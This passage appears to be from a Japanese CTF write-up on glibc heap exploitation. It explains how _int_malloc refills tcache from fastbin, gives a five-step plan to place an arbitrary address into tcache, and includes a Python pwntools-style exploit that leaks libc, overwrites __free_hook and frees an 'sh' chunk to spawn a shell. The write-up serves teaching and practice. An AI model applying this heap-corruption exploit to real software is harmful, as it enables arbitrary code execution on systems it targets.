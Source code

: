 ```c
		}
```

ということで_int_mallocの中でtcacheが空いていて、かつfastbinのチャンクのfdが非ゼロならば、tcacheが埋まるまで入れる。ということは、fastbinを獲得するときに、書き込みたいアドレス-0x10がfdに書かれているならば、これが次のtcacheの獲得先になるように書き換えられます。

この時点で方針は以下のように変わります。

1. 8つmallocし、8つfreeして１つのチャンクAをfastbinにつなぐ
2. 1つmallocしてチャンクAをfree。これでチャンクAはtcacheとfastbinの両方に所属する
3. mallocして任意アドレス-0x10を書き込む。
4. callocでfastbinのチャンクAを確保。同時に、fastbinにつながっている（と思っている）任意アドレスをtcacheにつなぐ
5. 次のmallocで任意アドレスに書き込み

```python
def a(val, f=False):
        r.sendlineafter('> ', '1')
        if f == False:
                r.sendlineafter('> ', '1')
        else:
                r.sendlineafter('> ', '2')
        r.sendlineafter('> ', str(val))

def d(idx):
        r.sendlineafter('> ', '2')
        r.sendlineafter('> ', str(idx))

r.recvuntil('deet: ') 
leak = int(r.recvuntil('\n', True), 16)
base = leak - 0x55410
fh = base + 0x1eeb28

# 1
for i in range(8):
        a(1)
for i in range(8):
        d(7-i)

# 2
a(1)
d(0)

# 3
a(fh-0x10)

# 4
a(0x6873, f=True)

# 5
a(leak)

d(0)
```
